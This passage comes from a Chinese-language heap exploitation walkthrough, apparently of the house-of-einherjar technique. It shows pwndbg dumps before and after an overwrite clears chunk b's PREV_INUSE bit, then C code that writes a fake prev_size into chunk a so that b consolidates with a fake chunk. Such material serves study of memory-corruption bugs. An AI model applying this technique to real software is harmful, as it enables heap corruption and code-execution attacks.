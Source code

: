 ```
pwndbg> p b
$2 = (uint8_t *) 0x603050 ""
pwndbg> x/20xg b-16
0x603040:	0x0000000000000000	0x0000000000000101      <-- b size
0x603050:	0x0000000000000000	0x0000000000000000
0x603060:	0x0000000000000000	0x0000000000000000
0x603070:	0x0000000000000000	0x0000000000000000
0x603080:	0x0000000000000000	0x0000000000000000
0x603090:	0x0000000000000000	0x0000000000000000
0x6030a0:	0x0000000000000000	0x0000000000000000
0x6030b0:	0x0000000000000000	0x0000000000000000
0x6030c0:	0x0000000000000000	0x0000000000000000
0x6030d0:	0x0000000000000000	0x0000000000000000
pwndbg> heap
0x603040 PREV_INUSE {
  prev_size = 0, 
  size = 257, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
```

修改后：

```
pwndbg> x/20xg b-16
0x603040:	0x0000000000000000	0x0000000000000100      <-- b size overwritten
0x603050:	0x0000000000000000	0x0000000000000000
0x603060:	0x0000000000000000	0x0000000000000000
0x603070:	0x0000000000000000	0x0000000000000000
0x603080:	0x0000000000000000	0x0000000000000000
0x603090:	0x0000000000000000	0x0000000000000000
0x6030a0:	0x0000000000000000	0x0000000000000000
0x6030b0:	0x0000000000000000	0x0000000000000000
0x6030c0:	0x0000000000000000	0x0000000000000000
0x6030d0:	0x0000000000000000	0x0000000000000000
0x603040 {
  prev_size = 0, 
  size = 256,   # size: 257 -> 256 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
```

接下来在 a 的最后 8 位写一个 fake prev_size 让它指向我们的 fake chunk。

``` c++
    // Write a fake prev_size to the end of a
    fprintf(stderr, "\nWe write a fake prev_size to the last %lu bytes of a so that "
           "it will consolidate with our fake chunk\n", sizeof(size_t));
    size_t fake_size = (size_t)((b-sizeof(size_t)*2) - (uint8_t*)fake_chunk);
    fprintf(stderr, "Our fake prev_size will be %p - %p = %#lx\n", b-sizeof(size_t)*2, fake_chunk, fake_size);
    *(size_t*)&a[real_a_size-sizeof(size_t)] = fake_size;
```
